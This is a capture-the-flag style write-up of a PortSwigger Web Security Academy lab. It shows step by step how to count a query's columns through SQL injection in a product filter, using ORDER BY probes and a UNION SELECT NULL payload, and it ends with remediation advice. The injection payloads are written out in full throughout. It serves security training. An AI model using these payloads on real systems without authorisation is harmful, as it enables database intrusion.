




# Lab: SQL Injection UNION Attack, Determining the Number of Columns Returned by the Query

> **Platform:** PortSwigger Web Security Academy  
> **Module:** SQL Injection  
> **Lab:** SQL injection UNION attack, determining the number of columns returned by the query  
> **Lab Link:** https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns  
> **Goal:** Perform a SQL injection UNION attack that returns an additional row containing null values to determine the number of columns returned by the query.

---

## 1. Lab Goal

The goal of this lab was to determine the number of columns returned by the backend SQL query in the product category filter by performing a SQL injection `UNION` attack that appends an additional row containing `NULL` values.

---

## 2. Given Information

The lab gave the following information:

- The application contains a SQL injection vulnerability in the product category filter.
- The results from the query are returned in the application's response, allowing the use of a `UNION` attack.
- To solve the lab, we need to determine the number of columns by injecting a row containing `NULL` values.

---

## 3. Vulnerability Summary

The application takes the user-supplied filter parameter from the URL query string and concatenates it directly into a backend `SELECT` SQL query without sanitization or parameterization. Because the query results are directly reflected on the page, an attacker can determine the underlying table's column structure using the `ORDER BY` technique and then inject a `UNION SELECT` statement with matching `NULL` columns to append arbitrary rows to the response.

---

## 4. Observation

When clicking on a category filter (such as `Accessories`) and taking a look at the URL, it showed:

```text
/?filter=Accessories
```



In the backend database, this parameter is likely being parsed inside a query like:

```sql
SELECT * FROM Products WHERE type = 'Accessories'
```

We can manipulate this parameter directly in the URL. While we could write a simple Python or Bash loop to automate the probing, I performed it manually here. To figure out the exact number of columns returned by the query, I used both the `ORDER BY` technique and the `NULL` row addition technique.

---

## 5. Initial Testing (ORDER BY Technique)

First, I used the `ORDER BY` clause to determine how many columns the original query returns by incrementing the column index until the database threw an error.

### Step 1: Testing Column 1
I modified the URL to order the results by the first column:

```text
/?filter=Accessories'+ORDER+BY+1+--
```

This generated the following backend SQL query:

```sql
SELECT * FROM Products WHERE type = 'Accessories' ORDER BY 1 --'
```

I saw that it ordered the products with reference to something that was not physically visible on the page. My guess is that since it is the first column, it must be the product ID.



### Step 2: Testing Column 2
Next, I changed the column index from `1` to `2`:

```text
/?filter=Accessories'+ORDER+BY+2+--
```

This generated the following backend SQL query:

```sql
SELECT * FROM Products WHERE type = 'Accessories' ORDER BY 2 --'
```

The page loaded normally and ordered the products alphabetically with respect to the product name.


### Step 3: Testing Column 3
Then, I changed the column index to `3`:

```text
/?filter=Accessories'+ORDER+BY+3+--
```

This generated the following backend SQL query:

```sql
SELECT * FROM Products WHERE type = 'Accessories' ORDER BY 3 --'
```

The page loaded and ordered the products according to their price in ascending order.


### Step 4: Testing Column 4
Finally, I incremented the column index to `4`:

```text
/?filter=Accessories'+ORDER+BY+4+--
```

This generated the following backend SQL query:

```sql
SELECT * FROM Products WHERE type = 'Accessories' ORDER BY 4 --'
```

This time, the application returned an `Internal Server Error`. This confirmed that the query only returns **3 columns**.



---

## 6. Exploiting the Vulnerability (NULL Row Addition)

To confirm the 3-column structure and solve the lab, I needed to append a row of `NULL` values using the `UNION` operator.

### Initial Attempt (Syntax Error)
First, I tried injecting `UNION` followed directly by three `NULL` values:

```text
/?filter=Accessories'+UNION+NULL,NULL,NULL+--
```

Resulting backend SQL query:

```sql
SELECT * FROM Products WHERE type = 'Accessories' UNION NULL,NULL,NULL --'
```

This didn't work because there was an error in my SQL syntax. The `UNION` operator combines the results of two separate queries and expects a `SELECT` clause specifying columns, not raw table entries.

### Final Payload
I corrected the syntax by adding the `SELECT` keyword before the `NULL` values:

```text
/?filter=Accessories'+UNION+SELECT+NULL,NULL,NULL+--
```

Resulting backend SQL query:

```sql
SELECT * FROM Products WHERE type = 'Accessories' UNION SELECT NULL,NULL,NULL --'
```

This worked as expected, adding an extra null row to the products display and solving the lab.



---

## 7. Correct Testing Approach

1. Identify a URL parameter whose output is directly reflected in the page response.
2. Probe the number of columns using `' ORDER BY 1--`, `' ORDER BY 2--`, and so on until an `Internal Server Error` (or unexpected behavior) occurs at index $N$, proving the query returns $N - 1$ columns.
3. Validate the column count (or test directly) using `' UNION SELECT NULL,...--` where the number of `NULL` values matches the number of columns. `NULL` is used because it is convertible to any data type in SQL.

---

## 8. Exploitation Steps

1. Clicked on the `Accessories` filter and observed the URL parameter `/?filter=Accessories`.
2. Injected `'+ORDER+BY+1+--` and observed the items sorted by a hidden column (likely product ID).
3. Injected `'+ORDER+BY+2+--` and observed the items sorted alphabetically by product name.
4. Injected `'+ORDER+BY+3+--` and observed the items sorted in ascending order by price.
5. Injected `'+ORDER+BY+4+--` and received an `Internal Server Error`, confirming there are 3 columns.
6. Tested `'+UNION+NULL,NULL,NULL+--`, which failed due to missing the `SELECT` keyword.
7. Injected `'+UNION+SELECT+NULL,NULL,NULL+--`, which appended a null row to the returned products and solved the lab.

---

## 9. Evidence

### ORDER BY Probing Requests & Queries

**Column 1:**
```text
/?filter=Accessories'+ORDER+BY+1+--
```
```sql
SELECT * FROM Products WHERE type = 'Accessories' ORDER BY 1 --'
```

**Column 2:**
```text
/?filter=Accessories'+ORDER+BY+2+--
```
```sql
SELECT * FROM Products WHERE type = 'Accessories' ORDER BY 2 --'
```

**Column 3:**
```text
/?filter=Accessories'+ORDER+BY+3+--
```
```sql
SELECT * FROM Products WHERE type = 'Accessories' ORDER BY 3 --'
```

**Column 4 (Error):**
```text
/?filter=Accessories'+ORDER+BY+4+--
```
```sql
SELECT * FROM Products WHERE type = 'Accessories' ORDER BY 4 --'
```

### UNION SELECT Requests & Queries

**Invalid Syntax Attempt:**
```text
/?filter=Accessories'+UNION+NULL,NULL,NULL+--
```
```sql
SELECT * FROM Products WHERE type = 'Accessories' UNION NULL,NULL,NULL --'
```

**Working Exploit Payload:**
```text
/?filter=Accessories'+UNION+SELECT+NULL,NULL,NULL+--
```
```sql
SELECT * FROM Products WHERE type = 'Accessories' UNION SELECT NULL,NULL,NULL --'
```

---

## 10. Why This Worked

For a `UNION` query to succeed in SQL, two strict conditions must be met:
1. The individual queries must return the exact same number of columns.
2. The data types in each corresponding column must be compatible between the queries.

When we tested `ORDER BY 4`, the database threw an exception because column 4 did not exist, which the application surfaced as an `Internal Server Error`. Once we knew there were 3 columns, supplying `UNION SELECT NULL,NULL,NULL` satisfied both conditions: it provided exactly 3 columns, and `NULL` is compatible with any column data type (such as integers, strings, or decimals).

---

## 11. Remediation / Fix

To prevent SQL injection vulnerabilities, the application should:

- **Use Parameterized Queries (Prepared Statements):** Ensure user-supplied input (`filter`) is passed as a bound parameter so the database treats it strictly as a literal value rather than executable SQL syntax.
- **Suppress Verbose Database Errors:** Return generic error pages instead of exposing unhandled `500 Internal Server Error` statuses when a database query fails.

---

## 12. Lessons Learned

- Both `ORDER BY` and `UNION SELECT NULL` are effective ways to enumerate column counts; `ORDER BY` can even give clues about hidden columns (like an unrendered ID column) based on how the visible data gets sorted.
- The `UNION` operator must always be followed by a valid `SELECT` statement (`UNION SELECT ...`), as `UNION` joins the result sets of two `SELECT` queries.

---

## 13. Final Summary

In this lab, I exploited a SQL injection vulnerability in the category filter parameter to determine the number of columns returned by the backend database query. By incrementally testing `ORDER BY 1` through `ORDER BY 4`, I observed how the products were sorted (by hidden ID, product name, and price) until `ORDER BY 4` triggered an `Internal Server Error`, proving the query returned 3 columns. Finally, after fixing a missing `SELECT` keyword in my initial attempt, I injected `' UNION SELECT NULL,NULL,NULL--` to append a row of null values to the query result and solve the lab.
